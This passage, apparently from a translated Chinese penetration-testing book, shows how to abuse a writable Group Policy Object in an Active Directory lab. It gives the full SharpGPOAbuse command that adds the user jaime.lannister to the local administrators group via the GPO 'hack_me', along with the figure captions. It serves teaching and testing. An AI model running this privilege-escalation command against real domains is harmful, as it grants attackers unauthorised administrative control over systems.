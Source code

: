 图 6.22 – GPO 信息

我们可以通过 **SharpGPOAbuse**[12]（由 *F-Secure* 编写）帮助将 **jaime.lannister** 添加到本地管理员组，从而提升权限：

```
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount jaime.lannister --GPOName "hack_me"
```

利用漏洞的结果如下所示：

![图 6.23 – jaime.lannister 用户被添加到本地管理员组](img/B18964_06_23.jpg)
